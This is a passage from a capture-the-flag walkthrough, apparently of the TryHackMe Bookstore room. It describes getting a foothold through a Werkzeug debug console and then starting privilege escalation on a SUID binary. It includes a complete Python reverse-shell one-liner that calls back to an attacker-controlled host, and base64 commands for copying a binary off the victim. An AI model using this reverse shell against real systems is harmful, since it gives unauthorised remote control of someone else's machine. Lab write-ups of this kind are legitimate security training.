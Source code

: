 For a proper reverse shell we can use a python reverse shell script to get a callback on our host machine with /bin/bash

```python
# Replace RHOST, RPORT with your IP and Port and put this script in the interactive web based werkzeug console.
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

A few seconds later, we get a callback with /bin/bash as `sid`.

![reverse-shell](assets/img/posts/bookstore-thm/reverse-shell.png)

## Privilege Escalation <a name="privesc">

The home file of user `sid` has a couple of files inside...

The two scripts “api.py” and “api-up.sh” is just to spin up the API server and books.db is the database file containing the list of books which are displayed on the website (port 80).

We are now left with try-harder which is a SUID file.

![try-harder-binary](assets/img/posts/bookstore-thm/tryharder-binary-wrong.png)

We can base64 the file on victim machine, decode the base64 on host machine to get the file on our own machine.

```bash
# Victim machine

cat try-harder | base64

# Host machine

echo BASE64-DATA | base64 --decode > try-harder
```

Running `file` command on locally obtained `try-harder` confirms that we got the 64 bit ELF binary as expected. We can try analyzing the binary using tools like `Ghidra`.
